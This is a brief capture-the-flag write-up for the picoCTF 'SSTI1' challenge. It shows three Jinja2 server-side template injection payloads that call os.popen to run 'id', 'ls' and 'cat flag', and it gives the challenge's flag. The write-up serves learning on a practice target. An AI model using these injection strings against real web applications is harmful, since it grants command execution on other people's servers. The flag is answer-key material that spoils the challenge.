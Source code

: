 # 1. SSTI1

I made a cool website where you can announce whatever you want! Try it out!
I heard templating is a cool and modular way to build web apps! Check out my website here!

## Solution:

<img width="575" height="444" alt="62750a98cf16788403fc63d5_SSTI20Chart" src="https://github.com/user-attachments/assets/77d6a569-3b66-4144-9e29-a13059c6aa69" />

used these payload commands to know it is jinja2.
```
{{request.application.__globals__.__builtins__.__import__('os').popen('id').read()}}
```
<img width="1657" height="520" alt="image" src="https://github.com/user-attachments/assets/57ae47cc-7efe-489b-a2ea-4803a7f467ea" />
got to know that we are running as a root user
```
{{request.application.__globals__.__builtins__.__import__('os').popen('ls').read()}}
```
<img width="1744" height="498" alt="image" src="https://github.com/user-attachments/assets/be08409f-34bc-4a0a-b2db-2ed8769e4fb5" />
listing out the files
```
{{request.application.__globals__.__builtins__.__import__('os').popen('cat flag').read()}}
```
<img width="1906" height="371" alt="image" src="https://github.com/user-attachments/assets/08ad9400-baae-4e99-b79b-b483b78b1267" />
cat the flag file

## Flag:

```
picoCTF{s4rv3r_s1d3_t3mp14t3_1nj3ct10n5_4r3_c001_bcf73b04}
```

## Concepts learnt:
- what is ssti
- different paylaods
- jinja2 paylaods



